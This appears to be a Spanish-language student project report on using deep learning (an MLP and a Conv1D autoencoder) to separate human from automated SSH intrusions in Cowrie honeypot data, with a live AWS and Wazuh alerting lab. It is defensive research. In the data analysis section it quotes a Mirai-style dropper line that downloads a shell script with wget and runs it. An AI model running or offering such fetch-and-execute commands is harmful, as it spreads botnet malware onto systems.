









  <h1>Detección de atacantes humanos vs. ataques automatizados en sesiones SSH</h1>
  
Deep Learning aplicado a la priorización de respuesta a incidentes

  

    CNN · Autoencoder · MLP
    Honeypot Cowrie
    Wazuh SIEM
    Despliegue en AWS
  

  

    <strong>Proyecto Final — Diplomado de Deep Learning</strong> 
    Autor: Daniel (DanielPPPf) · Junio 2026 
    Repositorio: github.com/DanielPPPf/Proyecto-Diplomado
  

## Resumen ejecutivo

Las organizaciones reciben **miles de intentos de acceso SSH no autorizados al día**.
La inmensa mayoría son automatizados (botnets, escáneres, gusanos) y de bajo riesgo;
una fracción mínima corresponde a un **atacante humano interactuando en vivo**
("hands-on-keyboard"), señal de un ataque dirigido y de mayor severidad.

Este proyecto desarrolla y **pone en operación** modelos de deep learning capaces de
distinguir ambos casos a partir de las sesiones capturadas por un honeypot, con el fin
de **priorizar la respuesta a incidentes** en un SOC. El trabajo abarca desde el
análisis exploratorio hasta un **laboratorio funcional en AWS** donde los modelos
clasifican ataques reales en tiempo casi real y generan alertas en un dashboard de Wazuh.

  

213,681

Sesiones analizadas

  

0.94

PR-AUC Modelo 1

  

2

Modelos DL en operación

  

AWS

Lab en vivo verificado

<strong>Resultado principal:</strong> el pipeline completo
<em>ataque → honeypot → inferencia → SIEM → alerta</em> funciona end-to-end, clasificando
sesiones reales como AUTOMATED o
MANUAL y mostrándolas en el dashboard de Wazuh.

## 1. Definición de objetivos

### Objetivo de negocio
Ayudar al equipo de seguridad (SOC) a **separar el ruido automatizado de las intrusiones
humanas activas**, concentrando recursos donde el riesgo real es mayor y reduciendo el
tiempo de detección de amenazas dirigidas.

### Objetivo técnico
El EDA reveló que las sesiones útiles son escasas y casi todas automatizadas, por lo que
el objetivo se formuló como un **enfoque combinado** de dos modelos:

1. **Clasificador de escalada (supervisado).** Predecir si una sesión será *fuerza bruta*
   vs. *interactiva* (ejecuta comandos) usando solo señales de la **fase de login**, sin
   mirar los comandos. Permite una alerta temprana antes de que el atacante actúe.
2. **Detección de anomalías (no supervisado).** Un **autoencoder** sobre la secuencia de
   comandos que aprende el payload automatizado "normal" y marca por error de
   reconstrucción las sesiones **raras** — candidatas a actividad humana o campañas nuevas.

## 2. Análisis Exploratorio de Datos (EDA)

**Dataset:** *CyberLab honeynet* (Zenodo 3687527), capturado con el honeypot **Cowrie** en
~50 nodos. Se usó una muestra de **3 días** (24–26 ago 2019): **213,681 sesiones**, ya
agrupadas por sesión con sus eventos y marcas de tiempo.

<strong>Hallazgo que redefinió el proyecto:</strong> el <strong>99.8%</strong> de las
sesiones son fuerza bruta pura (la IP prueba credenciales y se desconecta sin ejecutar un
solo comando). Solo el <strong>0.2% (429 sesiones)</strong> ejecuta comandos, y de ellas
~91% lo hace a ritmo de máquina con payloads Mirai idénticos. La actividad humana es
rarísima → no hay suficientes ejemplos para un clasificador humano-vs-bot directo.

<figure>
  
  <figcaption>Fig. 1 — Desbalance extremo: 99.8% de las sesiones son fuerza bruta.</figcaption>
</figure>

Las sesiones activas tienen un **ritmo de comandos delator**: un script ejecuta en
milisegundos, mientras un humano hace pausas para pensar. Esta es la señal central del
proyecto.

<figure>
  
  <figcaption>Fig. 2 — Ritmo medio entre comandos (log₁₀ s). El grueso cae por debajo de
  0.5 s (ritmo de máquina); muy pocas superan los 2 s (candidatas humanas).</figcaption>
</figure>

Además, decenas de IPs distintas ejecutan **exactamente la misma secuencia** de comandos
(droppers tipo Mirai: `cd /tmp; wget http://…/bins.sh; chmod 777; sh bins.sh`), lo que
confirma actividad de botnet.

## 3. Diseño de la configuración experimental

| Aspecto | Decisión |
|---|---|
| Unidad de análisis | La **sesión** (un intento de acceso desde una IP) |
| Parsing | `src/parse_cowrie.py` agrega eventos → tabla de features por sesión |
| Particiones (Modelo 1) | 70% train / 15% validación / 15% test, **estratificado** |
| Validación de honestidad | **Split temporal** (entrenar días 1-2, probar en día 3) |
| Métricas | **PR-AUC** (titular, por el desbalance), ROC-AUC, F1, recall, precisión |
| Desbalance | `class_weight` balanceado + umbral ajustado por F1 |
| Entorno | conda `diplomadoDL`, TensorFlow 2.14 (Keras 2), CPU |

## 4. Modelo 1 — Clasificador de escalada

**Tarea:** fuerza bruta vs. sesión interactiva, a partir de **49 features** de la fase de
login (4 numéricas: duración e intentos de login; 45 one-hot: sensor, país y versión del
cliente SSH). Arquitectura MLP: `Dense(64) → Dropout → Dense(32) → Dropout → sigmoide`.

  

0.965

PR-AUC (test)

  

1.000

Recall interactiva

  

0.928

Precisión interactiva

  

0.941

PR-AUC split temporal

<figure>
  
  <figcaption>Fig. 3 — Curvas ROC y Precision-Recall del Modelo 1 sobre el conjunto de prueba.</figcaption>
</figure>

El desempeño **sobrevive al split temporal** (entrenando con dos días y evaluando en un
día nuevo se mantiene PR-AUC 0.94), por lo que **no es memorización**: la huella del
handshake SSH y el patrón de autenticación predicen genuinamente qué sesiones escalan.

<strong>Métrica honesta:</strong> reportamos la <strong>PR-AUC (~0.94)</strong> como
titular, no la ROC-AUC (que se ve casi perfecta por la abundancia de negativos en un
problema con 0.2% de positivos).

## 5. Modelo 2 — Autoencoder de anomalías

**Tarea:** sobre las 429 sesiones activas, aprender a reconstruir las secuencias de
comandos "normales" (automatizadas). Las que el modelo **no reconstruye bien** son
atípicas. Arquitectura **Conv1D** a nivel de carácter (`L=400`, vocabulario de 89):
codificador `Embedding → Conv1D+MaxPool ×2`, decodificador `Conv1D+UpSampling ×2 → softmax`.

<figure>
  
  <figcaption>Fig. 4 — Distribución del error de reconstrucción. Umbral p95 ("revisar") y
  p99 ("campaña novedosa") marcan las sesiones atípicas.</figcaption>
</figure>

El autoencoder reconstruye con **bajo error los droppers Mirai repetidos** (confirmando
que son el patrón dominante) y asigna **alto error a campañas raras** — por ejemplo, una
campaña `Pemex.sh` minoritaria, distinta del payload masivo.

<strong>Matiz clave:</strong> "contenido anómalo" ≠ "manual". Un <em>bot nuevo</em> también
es raro. Por eso el veredicto separa dos ejes: el <strong>ritmo</strong> decide
automatizado/manual, y la <strong>anomalía</strong> marca aparte si la campaña es novedosa.
La correlación entre ambas señales es baja (0.146): son complementarias.

## 6. Laboratorio en vivo — de la teoría a la operación

Para demostrar que los modelos **se usan**, no solo se entrenan, se montó un laboratorio
en **AWS** donde se atacan honeypots reales y los modelos clasifican en tiempo casi real.

### Arquitectura

<pre>
[Atacante]  --SSH:2222-->  [VÍCTIMA: Cowrie + servicio de inferencia + agente Wazuh]
 ataques auto / manual                |  cowrie.json (evento por comando)
                                      v
                          infer_service.py  (Modelo 2 + ritmo + Modelo 1)
                                      |  verdicts.json
                                      v  (agente Wazuh, log JSON)
                            [MANAGER: Wazuh 4.13.1 all-in-one]
                                      |  reglas 1001xx
                                      v
                       [Dashboard: alertas AUTOMATED / MANUAL]
</pre>

| Componente | Detalle |
|---|---|
| Infraestructura | 2× EC2 `m7i-flex.large` (8 GB) en `us-east-2` |
| Sensor | Honeypot **Cowrie** en `:2222` (mismo esquema de los datos de entrenamiento) |
| Inferencia | `infer_service.py`: agrupa sesiones y emite veredicto en `verdicts.json` |
| SIEM | **Wazuh 4.13.1** + reglas personalizadas (decoder JSON) |

### Lógica del veredicto en operación

<table>
<tr><th>Eje</th><th>Señal</th><th>Regla Wazuh</th></tr>
<tr><td>AUTOMATED vs MANUAL</td>
    <td>Ritmo entre comandos (pausas humanas &gt; 2 s)</td>
    <td>100101 (nivel 3) / 100102 (nivel 12)</td></tr>
<tr><td>NOVEDOSA</td>
    <td>Error de reconstrucción del Modelo 2</td>
    <td>100104 (nivel 10)</td></tr>
</table>

### Resultados en vivo

Se lanzaron ataques automatizados (comandos en ráfaga) y manuales (tecleados con pausas)
contra el honeypot. El servicio clasificó cada sesión correctamente:

<pre>
[AUTOMATED] gap_mean=0.11s  recon=1.78  ::  ritmo de máquina
[MANUAL]    gap_mean=5.23s  recon=3.64  ::  ritmo humano + campaña NOVEDOSA
</pre>

El agente reporta al manager como **Active**:

<figure>
  
  <figcaption>Fig. 5 — Wazuh: el endpoint víctima (ID 001, Wazuh v4.13.1) en estado Active.</figcaption>
</figure>

Las sesiones aparecen clasificadas en el dashboard, con su regla y nivel de severidad:

<figure>
  
  <figcaption>Fig. 6 — Alertas en Wazuh: sesiones SSH MANUAL (nivel 12) y AUTOMATIZADO
  (nivel 3) con sus reglas 100102 / 100101.</figcaption>
</figure>

El detalle de cada alerta expone **por qué** el modelo decidió (los campos del veredicto):

<figure>
  
  <figcaption>Fig. 7 — Alerta <strong>MANUAL</strong>: <code>gap_mean=5.52s</code>,
  <code>recon_err=3.64</code>, <code>novel_campaign=true</code>, con la razón explicativa.</figcaption>
</figure>

<figure>
  
  <figcaption>Fig. 8 — Alerta <strong>AUTOMATED</strong> (contraste): <code>gap_mean=0.21s</code>
  (ritmo de máquina), regla 100101.</figcaption>
</figure>

Y la visualización resumen para el SOC:

<figure>
  
  <figcaption>Fig. 9 — Distribución de veredictos AUTOMATED vs MANUAL sobre los ataques de prueba.</figcaption>
</figure>

### Despliegue y flujo de datos

El modelo se entrena **offline** con datos históricos, pero está diseñado para operar
sobre el **flujo diario** de un honeypot vivo: Cowrie escribe eventos continuamente
(el honeypot recibió ~72,000 sesiones/día), un job procesa el log y los modelos infieren
por sesión. La continuidad del dato la garantiza exponer el sensor a internet, donde el
escaneo automatizado es incesante.

## 7. Conclusiones

- Se cumplió el objetivo: un sistema de deep learning que **prioriza la respuesta a
  incidentes** distinguiendo ataques automatizados de actividad humana en SSH.
- El **Modelo 1** predice con alta fidelidad qué sesiones escalarán a ejecutar comandos
  usando solo la fase de login (PR-AUC 0.94, validado temporalmente).
- El **Modelo 2** aísla las sesiones de comandos atípicas, complementando al ritmo para
  cubrir casos que una sola señal no detecta.
- El **laboratorio en AWS** demuestra el valor operativo: el pipeline completo funciona
  end-to-end y las alertas son accionables en el dashboard de Wazuh.

## 8. Limitaciones y trabajo futuro

<ul style="margin:0; padding-left:18px;">
<li>El veredicto AUTO/MANUAL se basa en el <strong>ritmo</strong>: un atacante humano que
pegue comandos de golpe se vería como automatizado (lo mitiga parcialmente el Modelo 2).</li>
<li>Los 3 días de datos son <strong>consecutivos</strong>: comparten campañas de botnet,
por lo que no se prueba la generalización a campañas de meses posteriores.</li>
<li>La actividad humana real es escasa en el honeypot; las etiquetas humano/bot se
infieren por heurística, no por verdad de terreno.</li>
</ul>

**Trabajo futuro:** ampliar a más meses de captura; incorporar más señales de
comportamiento (typos, exploración del entorno); validar con sesiones humanas etiquetadas;
y añadir un modelo de secuencias temporal (LSTM) sobre los tiempos entre comandos.

## Referencias

1. *CyberLab honeynet dataset* — Zenodo. https://zenodo.org/records/3687527
2. *Towards Identifying Human Actions, Intent, and Severity of APT Attacks Applying
   Deception Techniques.* https://arxiv.org/pdf/2006.01849
3. *GPT-2C: A GPT-2 parser for Cowrie honeypot logs.* https://arxiv.org/pdf/2109.06595
4. Cowrie SSH/Telnet Honeypot — https://github.com/cowrie/cowrie
5. Wazuh — Open Source Security Platform — https://wazuh.com

Proyecto Final · Diplomado de Deep Learning · Junio 2026 ·
Código y notebooks: <code>github.com/DanielPPPf/Proyecto-Diplomado</code>

